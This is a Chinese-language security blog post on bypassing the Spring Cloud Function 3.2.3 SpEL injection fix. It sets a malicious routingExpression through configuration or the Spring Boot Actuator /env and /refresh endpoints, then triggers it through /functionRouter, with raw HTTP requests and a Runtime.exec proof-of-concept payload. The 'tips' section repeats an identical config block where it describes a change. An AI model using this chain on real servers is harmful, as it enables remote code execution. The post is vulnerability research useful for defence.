


# 背景

3月份的时候互联网上披露了Spring Cloud Function SPEL表达式注入漏洞，也就是Spring Cloud Function  从3.0.0.RELEASE 到3.2版本都存在一个表达式注入漏洞，这个漏洞也随后
在3.2.3版本被官方修复。既然我们无法通过Header注入，那么能否有其它办法改变spring.cloud.function.routing-expression的值从而执行代码呢？

# 代码改动

Spring Coud Function 官方在3.2.3版本修复了之前的commit为dc5128b 的SPEL注入漏洞，具体代码改动


可以看到重载了functionFromExpression方法，通过判断isViaHeader执行不同的处理过程，如果为真，就用SimpleEvaluationContext处理header 里面的输入，否则才用StandardEvaluationContext 处理。


在取Header头中的spring.cloud.function.routing-expression 是调用了functionFromExpression(StringroutingExpression, Objectinput, booleanisViaHeader)，但是从配置文件中取这个字段的时候还是调用的functionFromExpression(StringroutingExpression, Objectinput)这个方法就是造成SPEL解析命令执行漏洞的关键。


因此理论上只要能够控制functionProperties.getRoutingExpression() 的值应该也能够触发这个漏洞。
进一步看下functionProperties类中的getRoutingExpression()方法

# 控制 functionProperties#getRoutingExpression()的取值



跟进到FunctionProperties这个类，它通过@ConfigurationProperties(prefix = FunctionProperties.PREFIX) 注解绑定相应的外部配置参数的值，因此getRoutingExpression()方法就能够获取到
application.properties(yaml)中对应的”spring.cloud.function.routingExpression“的值。

因此如果更改了配置文件参数如下，则同样能够触发SPEL注入漏洞。
```jsregexp
spring.cloud.function.definition=functionRouter
spring.cloud.function.routingExpression=T(java.lang.Runtime).getRuntime().exec("calc")
```


# 借助 actuator 修改环境变量

当然像上面的这种修改配置文件能够导致命令执行严格意义上并不能算是Spring-cloud-function的漏洞，因为配置文件是开发可以控制的，即非默认配置。
那么在实战中如何来控制配置文件信息呢？想到Spring Boot actuator 的 env 端点是能够更改环境变量属性信息的。

- 1.请求/env端点，写入配置

```jsregexp
POST /actuator/env HTTP/1.1
Host: 127.0.0.1:9000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0
Content-Type: application/json
Content-Length: 109

{"name":"spring.cloud.function.routingExpression","value":"T(java.lang.Runtime).getRuntime().exec('calc')"}
```



- 2.请求/refresh端点，刷新配置生效
```jsregexp
POST /actuator/refresh HTTP/1.1
Host: 127.0.0.1:9000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0
```


- 3.最后通过请求/functionRouter 路由执行routingExpression 表达式

```jsregexp
POST /functionRouter/qqq HTTP/1.1
Host: 127.0.0.1:9000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0

aaa
```


# tips
actuator 2.x 需要将env 和refresh 端点暴露出来，还有就是env 端点可写的特性是在Spring Cloud才具有的。

```
management.endpoint.refresh.enabled=true
management.endpoint.env.post.enabled=true
management.endpoints.web.exposure.include=env,restart,refresh
```

另外如果遇到了“POST /actuator/env returns 405 method not allowed”，表示env 端点不允许POST提交数据。这个是因为Spring Cloud 在Hoxton.SR3版本已经将env 端点的可写性做了一些改变（https://github.com/spring-projects/spring-boot/issues/20509），需要改成：

```
management.endpoint.refresh.enabled=true
management.endpoint.env.post.enabled=true
management.endpoints.web.exposure.include=env,restart,refresh
```
